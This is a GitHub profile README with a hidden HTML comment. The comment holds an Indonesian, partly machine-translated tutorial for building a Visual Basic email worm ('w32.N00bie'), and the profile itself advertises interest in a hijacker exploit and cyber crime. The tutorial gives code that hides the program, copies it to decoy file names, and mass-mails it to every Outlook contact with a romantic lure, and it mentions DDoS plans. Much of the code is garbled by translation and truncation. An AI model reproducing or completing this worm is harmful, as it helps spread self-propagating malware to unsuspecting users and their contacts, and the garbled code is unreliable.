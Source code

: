 - 👋 Hi, I’m @kushendar78
- 👀 I’m interested in HiJackerExploit.md
- 🌱 I’m currently learning HiJackerExploit.md
- 💞️ I’m looking to collaborate on  dalam dunia Cyber Crime
<!---
kushendar78/kushendar78 is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
Membuat worm Visual Basic

Diterbitkan 10.30.2006 oleh kus | Kirimkan pos ini ke email
Ini sepenuhnya dikreditkan ke mweed4, seorang moderator super di http://www.infowar.com

mweed4 menulis: Saya lupa di mana dan kapan saya mengambil ini. Jika Anda baru, 
silakan coba kode sebagai lawan menggunakan gui seperti sub tujuh, dll. Ini adalah praktik yang bagus untuk linux, dll.

Sekarang hal pertama yang akan kita lakukan adalah menunjukkan kepada Anda apa worm kita yang akan kita
 gunakan untuk membuat akan melakukan. Worm yang akan kita buat adalah w32.N00bie. 
Cacing ini tidak terlalu kuat tetapi bagus untuk pemula. Untuk dapat membuat worm ini Anda memerlukan Microsoft Visual Basic.
 Visual Basic adalah RPD atau Pembangun Aplikasi Cepat. Sekarang kita akan mulai membuat program pertama kita di Visual Basic.

Buka Visual Basic dan pilih Program Standrad .exe. Sekarang, 
Visual Basic akan memuat Windows yang berjudul "Form1" Ini adalah formulir utama untuk Visual Basic. Ini cacingmu.
 Klik dua kali pada jendela berlabel "form1" dan Anda akan melihat teks di bawah


ini Private formsub_load()

End Sub


Anda akan membuat kode di antara teks ini. (Gambar Satu menunjukkan contoh di mana Anda akan melakukan pengkodean)
 Hal pertama yang akan Anda lakukan adalah menyembunyikan worm Anda. Cacing harus memiliki siluman untuk dianggap sebagai Cacing "Nyata". 
Salah satu cara Anda dapat menyembunyikan Window apa pun di Visual Basic adalah kode di bawah ini

Form1.Visible = False

Kode di atas akan membuat form1 Tidak Terlihat Atau Anda bisa melakukan ini

Me.hide

Jadi, Sekarang mari tambahkan Me.Hide ke dalam kode kita. Jadi, kode dalam Visual Basic sekarang akan terlihat seperti di bawah ini.

Private Sub form_Load()
Me.Hide
End Sub

Now Sejauh ini satu-satunya hal yang akan dilakukan worm Anda adalah Menyembunyikan dirinya dari pengguna. 
Jadi, Sekarang mari kita membuat hati cacing. Sekarang saya katakan di atas worm harus melakukan BEBERAPA hal berikut:

-Email
-Injection
-Infection file -File
Sharing
-Eksploitasi seperti Dcom Exploit W32.Blaster Digunakan
-Messenger Exploits

Pada worm ini kita akan melakukan Emailing, File Sharing dan kita juga akan melakukan beberapa DDoS Attacks
 dan Lainnya dengan worm pada tanggal tertentu. Jadi, hal pertama yang kami ingin worm kami lakukan 
adalah menyalin dirinya sendiri di suatu tempat di mesin. Mengapa Anda mungkin bertanya? Ini adalah Pertanyaan yang Bagus. 

Alasan mengapa katakanlah bahwa worm diluncurkan dalam lampiran email tetapi beberapa cara menghapusnya ketika pengguna memulai ulang.
 Nah, Dengan salinan worm di mesin selalu ada peluang bagus bahwa worm akan diaktifkan kembali. 

Jadi, biarkan worm itu menyalin dirinya sendiri beberapa kali di sistem. Jadi, 
Ini adalah kode untuk menyalin dirinya sendiri ke tempat lain di mesin. 

Ketika saya mengatakan Copyiteself, maksud saya Seperti Membuat Salinan Tepat dari dirinya sendiri 
ke lokasi lain dengan nama yang berbeda. Jadi, Kami akan membuat 

contoh worm ini menyalin dirinya sendiri ke Drive C:\ menggunakan Nama File berikut:

C:\Worm1.exe
C:\InnocentFile.exe
C:\Me.exe
C:\OpenMe!.exe

Jadi, Dalam Visual Basic untuk menyalinnya sendiri dengan nama file tersebut 
ke drive c:\ yang akan kita miliki untuk memasukkan kode berikut. Jika Anda mempelajari kode tersebut, 
Anda akan mengerti apa artinya. Saya telah menjelaskan kode sedikit lebih baik di bawah ini.

Filcopy App.Path + "\" + App.EXEName + ".exe", "C:\Worm1.Exe"
Filcopy App.Path + "\" + App.EXEName + ".exe", "C:\InnocentFile. exe"
Filcopy App.Path + "\" + App.EXEName + ".exe", "C:\Me.EXE"
Filcopy App.Path + "\" + App.EXEName + ".exe", "C:\ OpenMe!.EXE"

Sekarang apa arti kode ini sepotong demi sepotong? Saya akan menjelaskannya sebaik mungkin di bawah ini:



App.Path + - Ini berarti akan menyalin Jalur Aplikasi

"\" - Ini sulit dijelaskan. Anda tahu bagaimana ketika Anda
 mengetik lokasi seperti C:\ dan Anda melihat \? Nah di kode ini tanpa "\" akan terlihat 
seperti ini C: Windows Desktop Worme.exe Jadi kita harus menambahkan ini di "\" agar terlihat seperti C:\Windows\Desktop\Worme.exe

App. EXEname + - Ini berarti akan membuat salinan dari Aplikasi Asli .Exe Name

.exe - Ekstensi file

Kemudian setelah lokasi file dipilih, Anda perlu memberi tahu Visual Basic ke mana akan menyalin worm. 
Jadi, Anda melihat bagian terakhir dari kode ini (The Part In Bolad)

Filcopy App.Path + "\" + App.EXEName + ".exe", "C:\OpenMe!.EXE"

Di sinilah kita akan menentukan di mana kita ingin salinan worm disalin. 
Jadi jika Anda mengubah bagian terakhir dari kode ke C:\Windows\Openme!.exe itu akan membuat salinan worm ke C:\Windows\Openme!.exe

Sekarang, saya harap saya tidak membingungkan Anda banyak. Jika saya punya saya minta maaf! Lol Anyway Kode Visual Basic Anda sekarang akan
terlihat seperti ini

Private Form Sub_Load()
Me.hide
Filcopy App.Path + "\" + App.EXEName + ".exe", "C:\Worm1.Exe"
Filcopy App.Path + "\" + App.EXEName + ".exe", "C:\InnocentFile.exe"
Filcopy App.Path + "\" + App.EXEName + ".exe", "C:\Me.EXE"
Filcopy App. Path + "\" + App.EXEName + ".exe", "C:\OpenMe!.EXE"




Menyembunyikan dirinya dari pengguna (Menyembunyikan dirinya sendiri)
Menyalin salinan persis dirinya ke C:\Worm1.Exe, C:\Innocentfile.exe, C:\Me.exe, C:\Openme.exe

Sekarang, mari kita buat worm Anda menyebar . Sekarang, Cara termudah untuk menyebarkan worm adalah Via-Email. Email adalah
Metode Penyebaran #1 dari Worm Internet. Jadi, Sekarang mari kita tambahkan kode email ke dalam program ini.

(Catatan: Agar kode email berfungsi, Anda perlu menambahkan Windows Scripting Control ke dalam program Anda. 
Jika tidak, worm Anda tidak akan melakukan tugas email sebelumnya. Anda menambahkan WSC dengan cara yang sama seperti Anda menambahkan Kontrol Winsock)

Sekarang Tambahkan kode Visual Basic Scripting ini ke dalam kode program Anda:

Set so = CreateObject(fso)
Set ol = CreateObject("Outlook.Application")
Set out = Wscript.CreateObject("Outlook.
Setel mapi = out.GetNameSpace("MAPI")
Setel a = mapi.AddressLists(1)
Untuk X = 1 Ke a.AddressEntries.Count
Setel Mail = ol.CreateItem(0)
Mail.to = ol.GetNameSpace("MAPI" ).AddressLists(1).AddressEntries(X)
Mail.Subject = "Fwd:None"
Mail.Body = "Apakah Anda ingin mengejutkan istri atau suami Anda? Apakah Anda ingin melakukan sesuatu yang romantis untuk mereka?
Ingin tahu caranya beruntunglah Sydney telah membuat Dokumen Luar Biasa ini Terlampir. Ini memberi tahu pria semua yang diinginkan Wanita!
 Dan Wanita, Anda dapat menambahkan barang ke dalamnya sebelum meneruskannya ke semua teman Anda!"
Mail.Attachments.Add = "C:\Worm1.exe"
Mail.Kirim
Berikutnya
ol.Quit

Sekarang worm Anda mengirim email sendiri. Saya ingin memberi tahu Anda bahwa ketika Anda mengkompilasi kode Visual Basic bahwa
Kode Vbs ini mungkin memberi Anda kesalahan. Nah, Jika itu Hapus kode apa pun yang memberi Anda kesalahan.
 Biasanya Set Pertama So=CreateObject(fso) jika ini terjadi, hapus saja dan coba kompilasi ulang. Ini harus bekerja. 
Jika itu tidak memecahkan masalah dan Anda akan berhasil memperbaiki masalah! Bagaimanapun, kode Visual Basic Anda sekarang akan terlihat seperti ini


Private Form Sub_Load()
Me.hide
Filcopy App.Path + "\" + App.EXEName + ".exe", "C:\Worm1.Exe"
Filcopy App.Path + "\" + App.EXEName + ".exe", "C:\InnocentFile.exe"
Filcopy App.Path + "\" + App.EXEName + ".exe", "C:\Me.EXE"
Filcopy App. Jalur + "\" + Aplikasi.

Set ol = CreateObject("Outlook.Application")
Set = Wscript.CreateObject("Outlook.Application")
Set mapi = out.GetNameSpace("MAPI")
Tetapkan a = mapi.AddressLists(1)
Untuk X = 1 Ke a .AddressEntries.Count
Set Mail = ol.CreateItem(0)
Mail.to = ol.GetNameSpace("MAPI").AddressLists(1).AddressEntries(X)
Mail.Subject = "Fwd:None"
Mail.Body = "Lakukan Anda ingin mengejutkan istri atau suami Anda? Apakah Anda ingin melakukan sesuatu yang Romantis untuk mereka? 
Ingin tahu cara mendapatkan keberuntungan? telah membuat Dokumen Luar Biasa ini Terlampir. 
Ini memberi tahu pria segala yang diinginkan Wanita! Dan Wanita, Anda dapat menambahkan barang ke dalamnya sebelum meneruskannya ke semua temanmu!"
Mail.Attachments.Add = Email "C:\Worm1.exe"
.
Sekarang Anda memiliki Cacing! Bagaimana ini cacing? Worm adalah file yang dapat mengirim email sendiri, 
menginfeksi komputer lain tanpa harus ada orang yang mengirim email file worm akan melakukannya dengan sendirinya. 
tolong gunakan ini untuk ed. tujuan saja. (ditambah anti virus apa pun akan mengambilnya segera.)
--->!
